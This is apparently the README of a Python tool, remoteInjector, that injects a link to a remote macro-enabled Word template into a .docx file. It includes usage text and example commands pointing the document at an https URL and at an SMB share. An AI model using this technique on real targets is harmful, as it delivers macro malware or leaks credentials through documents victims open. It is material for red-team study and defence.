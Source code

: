 # remoteInjector
Injects link to remote word template into word document.

[Related Blog Post](https://john-woodman.com/research/vba-macro-remote-template-injection/)
## Requirements
- Python3.x or Python2.x
## Usage
```
usage: remoteinjector.py [-h] [-w URL] F

Inject Template Through Relationship Settings

positional arguments:
  F           .docx file to inject template into

optional arguments:
  -h, --help  show this help message and exit
  -w URL      remote url to template

Example of use
To inject remote http url:

remoteinjector.py -w https://example.com/template.dotm example.docx

To inject SMB path:

remoteinjector.py -w \\1.1.1.1\C$\TEMP\template.dotm example.docx
```

